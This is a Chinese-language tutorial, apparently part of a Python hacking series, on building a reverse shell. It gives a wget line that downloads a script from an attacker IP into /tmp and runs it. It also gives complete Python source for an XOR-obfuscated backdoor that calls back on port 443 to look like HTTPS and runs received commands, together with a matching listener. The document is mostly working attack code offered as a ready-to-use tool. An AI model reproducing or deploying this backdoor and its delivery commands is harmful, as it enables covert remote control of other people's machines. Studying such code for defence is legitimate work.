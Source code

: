 ## 反向shell


参考阅读:[什么是反向Shell](http://os.51cto.com/art/201312/424378.htm)

这篇教程将会教你使用Python编写一个反向shell，首先我们先演示使用Python如何利用web服务器的功能，把文件从另一台主机传送过来。我们假设你有一台傀儡主机，你现在想下载傀儡机上面的的文件。那么你就可以使用shell(或meterpreter)去访问这台傀儡机，你可以通过一行Python代码把傀儡机建立成为一个web服务器，然后下载傀儡机上面的文件.

创建一个python HTTP服务器可以直接使用python的内建函数"SimpleHTTPServer"来创建，你可以使用'-m'参数直接在命令行调用模块，创建的服务器默认是监听的8000端口，但是你可以指定端口，直接在'SimpleHTTPServer'后面跟一个端口参数:

```
python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 80 ...
```

我们假设你没有防火墙去阻止你的连接，那么你是可以请求到这服务器的数据。你可以在任何目录里面去启动Python HTTP服务器，这样你就能够通过浏览器或者是远程客户端来访问这个目录。这里有一个简单的例子告诉你使用wget工具去获取文件,但是有些时候就会经常发现你根本没有权限在当前目录写入文件并且初始化这个脚本，但是你可以改变脚本执行的目录，下面这个例子就演示了把脚本在/tmp目录下面执行：

```
#使用-O参数，把文件保存在其他目录- /tmp/ 一般可写
wget -O /tmp/shell.py http://<attacker_ip>/shell.py
 
#修改权限
chmod a+x /tmp/shell.py
 
# 使用file命令检查文件是否正确
file /tmp/shell.py
 
#执行脚本
/usr/bin/python /tmp/shell.py
```

阅读下面的后门代码。编码时会使用到socket，subprocess和sys模块，选择subprocess模块原因，是因为它允许使用一个变量储存STDOUT输出的结果，之后可以在代码中的其他部分通过调用此变量访问保存的STDOUT数据。下面的代码中：所建立的连接会监听443端口。443端口经常用在https上，这里使用443端口可以起到混淆视听的作用:

```
#!/usr/bin/python
 
import socket,subprocess,sys
 
RHOST = sys.argv[1]
RPORT = 443
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))
 
while True:
     # 从socket中接收XOR编码的数据
     data = s.recv(1024)
 
     # XOR the data again with a '\x41' to get back to normal data
     en_data = bytearray(data)
     for i in range(len(en_data)):
       en_data[i] ^=0x41
 
     # 执行解码命令，subprocess模块能够通过PIPE STDOUT/STDERR/STDIN把值赋值给一个变量
     comm = subprocess.Popen(str(en_data), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
     comm.wait()
     STDOUT, STDERR = comm.communicate()
 
     # 输出编码后的数据并且发送给指定的主机RHOST
     en_STDOUT = bytearray(STDOUT)
     for i in range(len(en_STDOUT)):
       en_STDOUT[i] ^=0x41
     s.send(en_STDOUT)
s.close()
```

上面的代码中有些概念已经在0x1中介绍过了，但是除了之前的使用socket创建一个连接之外，我们通过subprocess模块执行了一个命令，subprocess模块非常的方便，它允许你通过STDOUT/STDERR命令直接把值赋值给一个变量，然后我们可以通过命令把输出的进行编码然后通过socket网络发送出去。使用OXR的好处就是你能够很容易编码你要发送过去的数据，然后通过相同的密钥来解码返回的数据，最后解码后的数据可以以明文的形式去执行命令。

现在为了利用好这个后门，我们需要一个监听脚本并且解码后端传输过来的数据，让我们通过明文很清晰的看清楚返回的数据。下面我们将要设计一个监听器。来获取反向shell的数据，并且能够对于输入／输出的进行解码/编码，为了能够在终端上面能够很清晰的看出来，所以需要使用XOR编码:

```
import socket 
 
s= socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind(("0.0.0.0", 443))
s.listen(2)
print "Listening on port 443... "
(client, (ip, port)) = s.accept()
print " Received connection from : ", ip
 
while True:
 command = raw_input('~$ ')
 encode = bytearray(command)
 for i in range(len(encode)):
   encode[i] ^=0x41
 client.send(encode)
 en_data=client.recv(2048)
 decode = bytearray(en_data)
 for i in range(len(decode)):
   decode[i] ^=0x41
 print decode
 
client.close()
s.close()
```

这章的例子非常有趣，对于学习信息安全的朋友都喜欢shell，大家可以对代码做点修改让这个脚本也能够在window上面也能够正常运行，最后大家可以使用base64来代替XOR进行编码与解码，这些练习让你你更加熟练的使用python.

